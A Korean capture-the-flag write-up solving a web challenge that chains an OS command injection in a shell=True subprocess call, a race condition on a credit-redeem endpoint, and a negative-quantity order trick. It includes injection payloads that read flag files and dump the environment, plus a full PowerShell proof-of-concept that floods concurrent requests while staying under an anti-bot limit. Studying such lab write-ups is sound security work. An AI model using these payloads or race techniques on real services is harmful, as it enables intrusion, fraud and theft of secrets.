



## DefCamp 2026 Web Supply 풀이.

## 문제 개요

- 대회: **DefCamp CTF**
- 문제: **DefCamp Supply** (Web)
- 환경: Windows, PowerShell (.NET `System.Net.Http.HttpClient`)
- 요약: 보안 장비 쇼핑몰. **premium 물건**을 살 때 서버가 프로필 검증을 하는데, 이때 사용자 입력이 셸 명령에 그대로 들어가 **OS Command Injection**이 터진다. 단, 그 물건이 20크레딧인데 시작 잔액은 0이고 하루 2크레딧만 받을 수 있다. 이 **크레딧 게이트**를 `/redeem` **레이스 컨디션**으로 뚫고, 주문 ETA 로직을 **음수 수량**으로 악용해 인젝션 결과를 즉시 회수한다.

**Flag**

```plain
CTF{00fd1af2af55ba826af4759fc024770d7ae720622e457b570d16224a8f43b5e2}
```


_그림 1. 시작 화면 — 잔액 `¢0`, "Claim 2 credits once per day". 하루 2크레딧만 지급되는 크레딧 게이트_

## 취약점 분석

제공된 소스(`public/source/`)에 커맨드 인젝션이 그대로 드러나 있다.

```python
# profile_check.py
def verify_custom_profile(profile: str) -> str:
    command = f'python3 verify_profile.py "{profile}"'   # 사용자 입력이 셸 문자열에 그대로
    completed = subprocess.run(
        command, shell=True, capture_output=True, text=True, timeout=5,
    )
    return (completed.stdout + completed.stderr).strip()
```

`profile`이 큰따옴표 안에 들어간 채 `shell=True`로 실행된다. 따라서 `"; <명령>; "` 형태로 따옴표를 닫고 임의 명령을 끼워 넣을 수 있고, 그 출력은 주문 `result`로 반환되어 화면(`<pre>{{ order.result }}</pre>`)에 그대로 렌더된다. 참고로 `verify_profile.py`는 `profile`이 화이트리스트(`standard`, `stealth`, ...)에 없으면 `profile rejected:<값>`을 출력하므로, 인젝션 성공 시 응답은 `profile rejected:` 뒤에 **주입한 명령의 출력**이 붙어 돌아온다.

문제는 이 인젝션에 도달하는 경로다. 엔드포인트는 두 개뿐이다.

- `POST /redeem` — 잔액 +2, **하루 1회**
- `POST /checkout` — `item_id`, `quantity`, `profile`

그리고 아래 세 가지 제약이 체인을 이룬다.

1. **인젝션은 premium 전용.** `profile`은 premium 물건 `zero_day_debugger`(20크레딧)에서만 서버로 전달되고, 나머지 물건은 서버가 `standard`로 강제한다. → 20크레딧이 필요하다.
2. **가격/수량.** `cost = price * max(quantity, 1)` (정수만). 음수 수량은 환불되지 않고, 가격 override 필드·쿠폰 파라미터·숨은 엔드포인트도 없다. 잔액은 쿠키가 아니라 서버측(`user_id` 기준)에 저장되므로 쿠키 위조는 무의미하다.
3. **크레딧 게이트.** 시작 잔액 0, `/redeem`은 하루 2크레딧. 정상적으로는 20크레딧에 도달할 수 없다.

## 사용한 도구

PowerShell + .NET `System.Net.Http.HttpClient`(동시 요청 레이스용). 사이트 구조 파악은 브라우저로 진행.

## 1. 인젝션 지점 확인 (premium 전용)

일반 물건에 인젝션을 넣으면 서버가 `standard`로 덮어써 버린다.

```plain
checkout(terminal_badge, profile='"; id; "')  ->  result: "profile accepted:standard"
```

반면 premium 물건 `zero_day_debugger`는 `profile`을 그대로 검증 단계로 흘려보낸다. 다만 가격이 20크레딧이고, 카탈로그에도 **"Restricted: requires 20 credits"**로 잠겨 있다.


_그림 2. premium 물건 `Zero-Day Debugger` — `¢20`, "Restricted: requires 20 credits". 인젝션은 이 물건에서만 가능_

## 2. 크레딧 게이트 — `/redeem` 레이스 컨디션

`/redeem`의 "오늘 이미 청구함" 검사는 **원자적이지 않은 check-then-set(TOCTOU)**이다. 플래그가 세팅되기 전에 동시 요청 여러 개를 밀어 넣으면 다수가 검사를 통과해 잔액이 2씩 여러 번 올라간다. 이걸로 한 번에 20 이상을 확보한다.

이 과정에서 두 개의 함정이 있었다.

- **클라이언트 측 연결 제한.** 레이스가 버스트 크기와 무관하게 항상 "당첨 2개"로 캡처럼 보였다. 이건 서버가 아니라 **.NET `HttpClient`의 기본 서버당 동시 연결 2개** 제한 때문이었다. `DefaultConnectionLimit` / `MaxConnectionsPerServer`를 올리자 진짜 동시 요청이 나가면서 당첨자가 늘어 잔액 ≥ 20을 달성했다.
- **anti-bot.** 동시 요청이 대략 20~40개를 넘으면 *"AI Detected... the challenge is for you, champ"* 조롱 페이지를 돌려준다(속도 기반이라 브라우저 User-Agent로는 우회 안 됨). 버스트는 **~18개 정도**로 억제한다.

## 3. 즉시 결과 회수 — 음수 수량

주문은 비동기다. `eta > 0`이면 `status:queued`, `result:null`로 약 36분 뒤에나 처리된다. 그런데 **음수 수량**을 주면 `eta < 0`이 되어 주문이 **즉시 `status:done`**으로 처리되고, `verify_custom_profile(profile)`이 동기 실행되어 인젝션 명령의 출력이 곧바로 `result`로 돌아온다.

```plain
POST /checkout
  item_id=zero_day_debugger
  quantity=-100
  profile="; id; cat /flag* 2>/dev/null; env; echo ENDMARK; "
```

서버에서 실제로 실행되는 명령은 다음과 같다.

```plain
python3 verify_profile.py ""; id; cat /flag* 2>/dev/null; env; echo ENDMARK; ""
```

## 4. 익스플로잇 & 플래그

세 조각(연결 제한 해제 → `/redeem` 레이스 → 음수 수량 인젝션)을 하나의 PoC로 묶는다.

```powershell
# defcamp_supply solve
$base    = 'http://<INSTANCE_IP>:<PORT>'
$N       = 18
$payload = '"; id; echo ---; cat /flag* /app/flag* /home/*/flag* /root/flag* 2>/dev/null; echo ---; env; echo ENDMARK; "'

# 1) .NET 기본 동시연결 2개 제한 해제 (이게 핵심)
[System.Net.ServicePointManager]::DefaultConnectionLimit = 256
[System.Net.ServicePointManager]::Expect100Continue = $false
Add-Type -AssemblyName System.Net.Http

$handler = New-Object System.Net.Http.HttpClientHandler
$handler.UseCookies = $true
$handler.CookieContainer = New-Object System.Net.CookieContainer
$handler.MaxConnectionsPerServer = 256

$client = New-Object System.Net.Http.HttpClient($handler)
$client.Timeout = [TimeSpan]::FromSeconds(30)
$client.DefaultRequestHeaders.UserAgent.ParseAdd('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36')

function Body ($resp) { return $resp.Content.ReadAsStringAsync().Result }
function PostRaw ($path, $raw) {
    $content = New-Object System.Net.Http.StringContent($raw, [System.Text.Encoding]::UTF8, 'application/x-www-form-urlencoded')
    return Body ($client.PostAsync("$base$path", $content).Result)
}

# 2) 새 세션으로 /redeem 동시 ~18회 (레이스 => 잔액 >= 20)
$null = $client.GetStringAsync("$base/").Result
$tasks = @()
foreach ($i in 1..$N) {
    $empty = New-Object System.Net.Http.StringContent('', [System.Text.Encoding]::UTF8, 'application/x-www-form-urlencoded')
    $tasks += $client.PostAsync("$base/redeem", $empty)
}
try { [System.Threading.Tasks.Task]::WaitAll($tasks) } catch {}

$page = $client.GetStringAsync("$base/").Result
$bal  = 0
if ($page -match '(?s)class="balance".*?<strong>[^0-9-]*(-?[0-9]+)') { $bal = [int]$matches[1] }
Write-Host "balance = $bal"
if ($bal -lt 20) { Write-Host "need >=20, rerun"; return }

# 3) premium + 인젝션, 음수 수량으로 즉시 처리
$profileEnc = [System.Uri]::EscapeDataString($payload)
$resp = PostRaw '/checkout' "item_id=zero_day_debugger&quantity=-100&profile=$profileEnc"

$m = [regex]::Match($resp, '"result":"(.*?)","status"')
if ($m.Success) {
    $result = $m.Groups[1].Value -replace '\\n', "`n" -replace '\\"', '"' -replace '\\\\', '\'
    Write-Host $result
}
$flag = [regex]::Match($resp, 'CTF\{[0-9a-f]{64}\}').Value
if ($flag) { Write-Host $flag }
```

잔액 ≥ 20을 확보한 뒤 음수 수량 체크아웃을 보내면, 응답 JSON의 `result` 필드에 주입한 명령의 출력과 함께 flag가 담겨 돌아온다.


_그림 3. 음수 수량 체크아웃 응답의 `result` 필드 — 주입한 명령 출력에서 flag 획득_

> [!TIP]
> 레이스를 돌릴 때는 **클라이언트 쪽 제한**을 먼저 의심하자. .NET은 기본적으로 서버당 동시 연결을 2개로 제한(`DefaultConnectionLimit` / `MaxConnectionsPerServer`)하기 때문에, 이걸 안 풀면 "항상 2개만 당첨"처럼 보여 서버측 레이스 캡으로 오인하기 쉽다. 또한 버스트가 ~20~40을 넘으면 anti-bot 페이지가 뜨므로 동시 요청 수는 ~18 정도로 억제한다.
